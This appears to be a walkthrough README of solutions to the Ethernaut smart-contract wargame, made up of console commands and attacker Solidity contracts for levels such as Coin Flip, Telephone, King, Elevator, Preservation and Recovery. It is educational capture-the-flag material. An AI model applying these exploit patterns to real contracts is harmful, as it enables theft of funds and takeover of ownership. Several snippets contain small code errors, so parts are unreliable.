



## [Note]:

1. The first step at all level you need create new instance button, after confirm transaction You can see contract address as the image:

    

2. When you see `<file_name>.sol`. We need create a `<file_name>.sol` to deploy or inject it to metamask. 

   You can use that: https://remix.ethereum.org/

3. For combine a file on remix.ethereum:
    
    
    [1]: Button for combine
    [2]: Select version solidity. It match with `pragma` with you define

4. For deploy a file on remix.ethereum:
    
    
    [1]: Select type inject to metamask if you use metamask wallet <br />
    [2]: Select your account want on wallet.<br/>
    [3]: Select file you want to deploy.<br/>
    [4]: address param you want deploy to <br/>
    [5]: As you see we have `isLastFloor` function and `setTop` function after We deployed We have button to execute they with params. 


## Go to ethernaut

### Hello
console: <br/>
```
await contract.info();
await contract.info1();
await contract.infoNum();
await contract.info42();
await contract.theMethodName();
await contract.method7123949();
await contract.authenticate(await contract.password());
```
confirm transaction and wait until done
===> submit level


### Fallback:
console:
```
contract.contribute({value: 1})
```
```
await contract.sendTransaction({value: 1})
```
```
await contract.withdraw()
```
===> submit level

### Fallout
console:
```
contract.Fal1out()
```
===> submit level


### Coin Flip
CoinFlip.sol ==> create and copy content of this level.<br>
replace:<br> 
- `@openzeppelin/contracts/math/SafeMath.sol` => `https://github.com/OpenZeppelin/openzeppelin-contracts/blob/master/contracts/utils/math/SafeMath.sol`<br>
- `pragma solidity ^0.6.0` => `pragma solidity ^0.8.0;`;

CoinFlipAttack.sol ==>
```
pragma solidity ^0.8.0;
import './CoinFlip.sol';

contract CoinFlipAttack {

    CoinFlip public _v;
    uint256 FACTOR = <copy_from_CoinFlip.sol>;
    
    constructor(address v) public {
        _v = v;
    }

    function flip() public returns (bool) {
        uint256 b = uint256(blockhash(block.number -1));
        uint256 coinFlip = uint256(b/FACTOR);
        bool side = coinFlip == 1 ? true : false;
        _v.flip(side);
    }
}
```

deploy with params:<br>
- address: contract.address get on console window

click button flip least 10 times

console:
`await contract.consecutiveWinds()` <br>
check `words` property is `[10, anything_there]`

===> submit level
<br>

### Telephone
Telephone.sol ==> create and copy content of this level.<br>
TelephoneAttack.sol
```
pragma solidity ^0.6.0;
import './Wallet.sol';

contract TelephoneAttack {

    Telephone w;
    
    constructor(address _wallet) public {
        w = Telephone(_wallet);
    }

    function attack(address _a) public {
        w.changeOwner(_a);
    }
}
```

deploy with params:<br>
- address: contract.address get on console window

hackContract with param is your address
<br>
check `contract.address` will be your address

===> submit level

### Token
console
`contract.transfer('any_address', 20 + 1);`


### Delegation
console
`let pwn = web3.utils.sha3("pwn()");`
`contract.sendTransaction({data: pwn})`


### Force
ForceAttack.sol
`
    pragma solidity ^0.4.0;

    contract ForceAttack {
        constructor() public payable{
        }

        function attack(address _a) public {
            selfdestruct(_a);
        }
    }
`

===>deploy with value 1 wei
===>execute attack button with contract.address on console window

### Vault
console
`let pwd;`
`web3.eth.getStorageAt(contract.address, 1, (e,r)=>{pwd=r;})`
`web3.utils.toAscii(pwd)`
`contract.unlock(pwd)`
`await contract.locked` ==> should be false


### King
AttackKing.sol
`
    pragma solidity ^0.4.26;

    contract AttackKing {
        constructor(address a) public payable{
            address(a).call.value(msg.value)();
        }

        function() external payable{
            revert('You lose!');
        }
    }
`

==>deploy with contract.address, value 1 ether

`await contract._king()`

### Elevator
ElevatorAttack.sol
`
    pragma solidity ^0.5.0;

    contract ElevatorAttack {
        bool public toggle = true;
        Elevator public target;

        constructor(address a) public payable{
            target = Elevator(a);
        }

        function isLastFloor(uint) public returns(bool) {
            toggle = !toggle;
            return toggle;
        }

        function setTop(uint _f) public {
            target.goTo(_f);
        }
    }
`
===> deploy with contract.address
===> setTop with param is 15
console 
`await contract.floor()`
`await contract.top()`


### Gatekeeper Two
GatekeeperTwoAttack.sol
`
    pragma solidity ^0.6.0;

    contract GatekeeperTwoAttack {
        constructor(address a) public {
            bytes8 _key = bytes8(uint64(bytes8(keccak256(abi.encodePacked(address(this))))) ^ uint64(0) - 1);
            a.call(abi.encodeWithSignature('enter(bytes8)', _key))
        }
    }
`
===> deploy with contract.address

### Naught Coin
console:
`let a = (await contract.balanceOf(player)).toString();`
`await contract.approve(player, a)`
`(await contract.allowance(player, player)).toString()`
`await contract.transferFrom(player, "any_address", a)`
`(await contract.balanceOf(player)).toString()` 
==> 0

### Preservation
PreservationAttack.sol
`
    pragma solidity ^0.5.0;

    contract PreservationAttack {
        address a;
        address b;
        address public o;
        uint time;

        function setTime(uint t) public {
            o = msg.sender;
        }
    }
`
===> deploy
console:
`
    let sData = [];
    for(i=0;i<6;i++) {
        web3.eth.getStorageAt(contract.address, i, (e,cData) => {
            sData[i] = cData
        })
    }
`
`await contract.setFirstTime("address_get")`
address_get will get in remix idle after deployed
`await contract.setFirstTime("12345")`

### Recovery
console
`
    data = web3.eth.abi.encodeFunctionCall({
        name: 'destroy',
        type: 'function',
        inputs: [{
            type: 'address',
            name: '_to'
        }]
    },[player]);
`
`
    await web3.eth.sendTransaction({
        to: "your_address",
        from: "player",
        data: data
    })
`
